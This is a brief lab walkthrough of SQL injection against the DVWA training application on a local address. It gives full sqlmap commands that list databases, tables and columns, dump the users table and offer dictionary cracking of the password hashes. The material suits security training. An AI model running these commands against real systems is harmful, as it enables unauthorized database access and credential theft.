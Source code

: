 DVWA local site will try to enforce security to impossible with its own PHPSESSID but it will
ask you if you want to set those diferently. This is obviously a vulnerability as the website should
enforce its own security and session ID.

Test for SQL injection vulnerabilities within these fields:
sqlmap --url "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=hello&Submit=Submit#" -p id,Submit --cookie="PHPSESSID=4q25s9eis93ul7uj24f0164vb0;security=low" --dbs --dbms=mysql

Grab tables:
sqlmap --url "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=hello&Submit=Submit#" -p id,Submit --cookie="PHPSESSID=4q25s9eis93ul7uj24f0164vb0;security=low" --tables

Grab columns from the Users table
sqlmap --url "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=hello&Submit=Submit#" -p id,Submit --cookie="PHPSESSID=4q25s9eis93ul7uj24f0164vb0;security=low" -D dvwa -T users --columns

Dump table entries from the Users table:
sqlmap --url "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=hello&Submit=Submit#" -p id,Submit --cookie="PHPSESSID=4q25s9eis93ul7uj24f0164vb0;security=low" -D dvwa -T users --dump
	-You will be given a choice to do a dictionary attack on the hashes with default options or
	download them later to work them against other tools.
